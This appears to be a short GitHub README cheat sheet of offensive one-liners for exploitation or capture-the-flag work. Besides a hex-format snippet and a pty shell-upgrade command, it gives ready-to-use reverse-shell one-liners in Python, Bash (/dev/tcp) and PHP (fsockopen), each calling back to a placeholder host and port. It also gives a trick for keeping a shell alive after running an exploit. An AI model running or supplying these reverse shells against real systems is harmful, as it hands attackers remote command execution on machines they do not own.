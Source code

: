 
# Useful Scripts & Commands 🧰

## Commands:

### Python 

- Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`

- Print an address in little endian:
      
       `python -c "import struct; print(struct.pack('<I',0xdeadbeef))"`


- Oneline python revshell:


      `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{HOST_IP}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
        
- Shell upgrade: 

      `python -c "import pty;pty.spawn('/bin/bash')"`

### Bash

- Maintain shell after running an exploiting: `(./exploit | cat ) | ./vuln`
- Simple Bash revshell: 
    
      `bash -i >& /dev/tcp/{HOST_IP}/{PORT} 0>&1`

### PHP

- Oneline revshell: 

      `php -r '$sock=fsockopen("{HOST_IP}",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
